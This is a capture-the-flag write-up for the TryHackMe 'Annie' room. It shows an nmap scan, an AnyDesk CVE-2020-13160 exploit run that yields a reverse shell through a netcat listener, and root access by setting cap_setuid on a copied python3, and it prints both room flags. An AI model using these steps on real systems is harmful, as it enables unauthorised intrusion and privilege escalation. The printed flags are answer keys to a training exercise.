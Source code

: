 ```yaml
---
title: "Annie"
author: "Divyanshu Sharma"
date: 2022-10-30
permalink: /tryhackme/annie
tags: tryhackme
---
```

# IP
10.10.226.12

## Enumeration

### Nmap
Found 2 port running on the system 
```console
❯ nmap -sC -sV 10.10.226.12 | tee nmap.log
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-21 11:52 IST
Nmap scan report for 10.10.226.12
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 72:d7:25:34:e8:07:b7:d9:6f:ba:d6:98:1a:a3:17:db (RSA)
|   256 72:10:26:ce:5c:53:08:4b:61:83:f8:7a:d1:9e:9b:86 (ECDSA)
|_  256 d1:0e:6d:a8:4e:8e:20:ce:1f:00:32:c1:44:8d:fe:4e (ED25519)
7070/tcp open  ssl/realserver?
| ssl-cert: Subject: commonName=AnyDesk Client
| Not valid before: 2022-03-23T20:04:30
|_Not valid after:  2072-03-10T20:04:30
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 791.73 seconds
```

The service running on port `7070/tcp` is anyDesk, on googling found this service to be exploitable ([CVE:2020-13160](https://nvd.nist.gov/vuln/detail/CVE-2020-13160)) for linux systems. 


## Exploit
### Anydesk ([CVE:2020-13160](https://nvd.nist.gov/vuln/detail/CVE-2020-13160))
Found Remote Code execution for `Anydesk 5.5.2`, after making changes to the exploit and running this exploit got a reverse shell.
```console
❯ python2 49613.py
sending payload ...
reverse shell should connect within 5 seconds
```
```console
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.0.150] from (UNKNOWN) [10.10.226.12] 44538
python3 -c "import pty; pty.spawn('/bin/bash')"
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

annie@desktop:/home/annie$
```
Found `user.txt` 
```console
annie@desktop:/home/annie$ cat user.txt
THM{N0t_Ju5t_ANY_D3sk}
```
### Privilege Escalation 
Found `setcap` as `SUID` binary on looking for exploit found [this](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#exploitation-example).
```console
annie@desktop:/home/annie$ cp /usr/bin/python3 .
annie@desktop:/home/annie$ setcap cap_setuid+ep ./python3
annie@desktop:/home/annie$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash");'
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
root@desktop:/home/annie# cat /root/root.txt
THM{0nly_th3m_5.5.2_D3sk}

```
